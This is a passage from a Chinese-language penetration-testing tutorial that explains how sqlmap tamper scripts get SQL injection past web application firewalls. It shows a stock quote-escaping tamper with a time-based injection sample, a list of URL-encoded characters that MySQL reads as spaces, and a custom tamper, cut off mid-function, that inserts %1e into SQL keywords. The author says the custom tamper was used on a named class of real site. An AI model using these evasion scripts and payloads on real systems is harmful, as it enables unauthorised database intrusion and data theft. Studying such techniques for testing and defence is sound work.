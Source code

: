 ```shell
14,admin4,admin4
```

#### 利用 tamper 绕过 WAF

在云时代网络中，很多部署网站的服务器都会提供 WAF（Web 防火墙）服务。在未部署的情况下，云厂商如果检测到 Web 攻击请求，可能会发短信通知你开启 WAF 服务。之前我在一次渗透测试工作中就是如此：原本未部署 WAF 的网站，在 SQL 注入的过程中，突然就开启 WAF 拦截了。

tamper 正是对 sqlmap 进行扩展的一系列脚本，可在原生 payload 的基础上做进一步的处理以绕过 WAF 拦截。sqlmap 里有个 tamper 目录，里面放着很多脚本，比如编码、字符替换、换行符插入。

我们先来看下 sqlmap 自带的一个最简单的，用于转义单引号的 tamper 脚本：

```python
#!/usr/bin/env python
"""
Copyright (c) 2006-2020 sqlmap developers (http://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""
from lib.core.enums import PRIORITY
__priority__ = PRIORITY.NORMAL
def dependencies():
    pass
def tamper(payload, **kwargs):
    """
    Slash escape single and double quotes (e.g. ' -> \')
    >>> tamper('1" AND SLEEP(5)#')
    '1\\\\" AND SLEEP(5)#'
    """
    return payload.replace("'", "\\'").replace('"', '\\"')
```

它主要由 3 个部分组成。

* **priority**：代表优先级，当使用多个脚本时可定义执行顺序。

* dependencies：对依赖环境的声明，比如输出日志，可不写。

* tamper：主函数。payload 代表 sqlmap 自带的测试语句；kwargs 代表请求参数，可以用来修改 http 头信息。**tamper 主要是对原生 payload 做一些替换处理，这是绕过 WAF 的关键点**。

下面以某知名网站的 SQL 注入为例。常规的注入语句都被拦截了，后来在 fuzz 测试 WAF 时，发现使用一些特殊符号可以绕过 WAF（换行符也经常被用来绕过），而 MySQL 中有些特殊字符又相当于空格：
> %01, %02, %03, %04, %05, %06, %07, %08, %09, %0a, %0b, %0c, %0d, %0e, %0f, %10, %11, %12, %13, %14, %15, %16, %17, %18, %19, %1a, %1b, %1c, %1d, %1e, %1f, %20

我们尝试在每个 SQL 关键词中随机加个%1e。测试确认可绕过 WAF 后，接下来就是写 tamper 让 sqlmap 实现自动化绕过 WAF。

```python
import re
from lib.core.common import randomRange
from lib.core.data import kb  # kb 中存放着 sqlmap 的一些配置信息
from lib.core.enums import PRIORITY
__priority__ = PRIORITY.LOW
def tamper(payload, **kwargs):
    result = payload
    if payload:
        for match in re.finditer(r"\b[A-Za-z_]+\b", payload):
            word = match.group()
            if len(word) < 2:
                continue
            if word.upper() in kb.keywords:  # 判断是否属于 SQL 关键词
                str = word[0]
                for i in xrange(1, len(word) - 1):
                    str += "%s%s" % ("%1e" if randomRange(0, 1) else "", word[i])
                str += word[-1]
                if "%1e" not in str:
                    index = randomRange(1, len(word) - 1)
                    str = word[:index] + "%1e" + word[index:]
```